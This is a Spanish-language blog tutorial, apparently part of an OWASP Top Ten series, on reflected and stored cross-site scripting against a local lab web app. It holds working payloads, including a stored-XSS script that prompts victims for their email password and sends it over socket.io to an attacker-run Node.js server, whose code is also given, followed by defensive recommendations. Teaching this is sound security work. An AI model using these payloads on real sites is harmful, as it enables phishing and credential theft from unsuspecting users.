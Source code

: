 ```yaml
---
layout: post
title:  "Como realizar una inyeccion XSS y obtener credenciales"
description: "Explotando los 10 riesgos mas criticos segun el OWASP VI"
date:   2019-07-15
image:  OwaspTopTen.jpg
tags:   [Inyeccion XSS, Pentesting WEB, Hacking NodeJS]
---
```


Hello Engineers!  
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual y critica en las aplicaciones web.  

**A7-Cross-site Scripting**  
XSS es el acrónimo usado para “Cross Site Scripting”.   
Es un tipo de vulnerabilidad de los aplicativos web, el cual puede permitir a un atacante inyectar código JavaScript u otro lenguaje similar sobre dicha página web.  
Las fallas que permiten que estos ataques tengan éxito están bastante extendidas y ocurren en cualquier lugar en que una aplicación web utiliza la entrada de un usuario.   

Los daños de un ataque XSS pueden ser los siguientes:  

  - Robar de sesion.  
  - Redireccionar a sitios de phishing, o a páginas falsas.  
  - Descarga de software malicioso.  
  - Keyloggers.  
  - y otros tipos de ataques del lado cliente.  

## Conceptos Basicos  
Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:  

**XSS Reflejado**  
Es el más común de los tipos de XSS, sucede cuando una aplicación o API utiliza datos sin validar, suministrados por un usuario y codificados como parte del HTML o Javascript de salida. Un ataque exitoso permite al atacante ejecutar comandos arbitrarios (HTML y Javascript) en el navegador de la víctima.   
Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, publicidad maliciosa, entre otros.   

**XSS Almacenado**  
Si el código que hemos insertado se queda almacenado en el servidor, por ejemplo formando parte de una contribución en un foro, el ataque se dice que es persistente o almacenado.    
Un ataque XSS persistente puede tener lugar en el caché de una aplicación web o en una base de datos conectada de dichos sitios web. Los ataques persistentes siempre están en el lado del servidor y tienen un gran riesgo potencial.  

**XSS Basados en DOM:**  
Este tipo de XSS es en el que la carga útil de ataque se ejecuta como resultado de la modificación del DOM "entorno" en el navegador de la víctima.    

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## XSS Reflejado  
**Escenario de la prueba #1:**   
Vamos aprender a explotar esta vulnerabilidad por medio de un formulario que realiza busqueda sobre registros previamente ingresados.  

Inicialmente vamos a dirigirnos al apartado para realizar la prueba de inyeccion de XSS reflejada.  
**http://172.17.0.2:9090/app/products**  


<figure>
  <img src="{{site.baseurl}}/img/xss.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss.png" title="Formulario con un campo de búsqueda">Formulario con un campo de búsqueda</a>.
  </figcaption>
</figure>

El aplicativo web anterior se compone de una tabla de registros y un campo para realizar consultas o busqueda sobre dicha tabla.  
Vamos a realizar una inyeccion de codigo javascript usando este campo.  
La carga util "maliciosa" que usaremos es la siguiente:  

{% highlight html %}
<script>alert("Hacked By Gerh")</script>  
{% endhighlight %}    

A continuacion, doy a mostrar el paso a paso para encontrar un formulario vulnerable a inyecciones XSS.  

<figure>
  <img src="{{site.baseurl}}/img/xss-reflejected.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-reflejected.gif" title="Analizando un campo de busqueda vulnerable a XSS">Analizando un campo de busqueda vulnerable a XSS</a>.
  </figcaption>
</figure>

## XSS Almacenado  
**Escenario de la prueba #2:**   
En el escenario anterior aprendimos a realizar una inyeccion XSS reflejada, la cual como se podia apreciar no era persistente debido a que las consultas realizadas no es un dato que se este almacenando en una base de datos.  
El formulario anterior expuesto permite el ingreso de nuevos productos, los cuales son registros que deben estar almacenados en una base de datos.   


<figure>
  <img src="{{site.baseurl}}/img/xss-stored.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.png" title="Analizando posibles registros de la base de datos">Analizando posibles registros de la base de datos</a>.
  </figcaption>
</figure>

En vez de guardar algun registro con palabras normales, vamos a ingresar el siguiente payload.  

{% highlight html %} 
<!-- Importamos la libreria de socket.io -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/2.2.0/socket.io.dev.js" integrity="sha256-i2Orhi397HWPn93rsCUTW8HBoso65vY/VNTllm9Kuqo=" crossorigin="anonymous"></script> 

<script>
  /* Desplegamos una entrada de texto y solicitamos un dato confidencial para almacenarlo en la variable PassVictim */ 
  var PassVictim = prompt("Por favor ingresa tu contraseña del correo para continuar!", "******");
  alert("Gracias por tu colaboracion")

  /* Le indicamos a socker.io a donde nos vamos a conectar */ 
  var socket = io.connect('http://localhost:8080');
  /* Emitimos un mensaje hacia el servidor concatenando la variable PassVictim, la cual tiene el dato confidencial. */
  socket.emit('message', 'Account Hacked!!  \n' + PassVictim);
</script>  
{% endhighlight %}    

En nuestra maquina atacante, vamos a crear un pequeño servidor con nodejs y codificamos lo siguiente:  
Si desear saber la explicacion a mas detalle con relacion a este desarrollo te invito al siguiente [POST]().  

{% highlight js %}  
var http = require('http');
var fs = require('fs');
var server = http.createServer(function(req, res) {
    fs.readFile('./index.html', 'utf-8', function(error, content) {
        res.writeHead(200, {"Content-Type": "text/html"});
        res.end(content);
    });
});
var io = require('socket.io').listen(server);
io.sockets.on('connection', function (socket) {
    socket.emit('message', 'You are connected!');
    socket.on('message', function (message) {
        console.log(message);
    }); 
});

server.listen(8080);
{% endhighlight %}    

Listo, hemos logrado crear un script para realizar phising aprovechandonos de una inyeccion XSS almacenada.  
A continuacion, vamos a ver el comportamiento de lo previamente construido.  

<figure>
  <img src="{{site.baseurl}}/img/xss-stored.gif" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss-stored.gif" title="Realizando un phising con una inyeccion XSS almacenada">Realizando un phising con una inyeccion XSS almacenada</a>.
  </figcaption>
</figure>

Incluso si cerramos la sesion y salimos de la aplicacion, Cuando entremos nuevamente se ejecutara el script debido a que esta almacenado en una base de datos.  

## Recomendaciones  
Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.  
  - Utilizar frameworks seguros que, por diseño, automáticamente codifican el contenido para prevenir XSS, como en Ruby 3.0 o React JS.  
  - Codificar los datos de requerimientos HTTP no confiables en los campos de salida HTML (cuerpo, atributos, JavaScript, CSS, o URL) resuelve los XSS Reflejado y XSS Almacenado.     
  - Habilitar una Política de Seguridad de Contenido (CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales, bibliotecas vulnerables en fuentes conocidas almacenadas en Redes de Distribución de Contenidos (CDN) o localmente.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  


 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)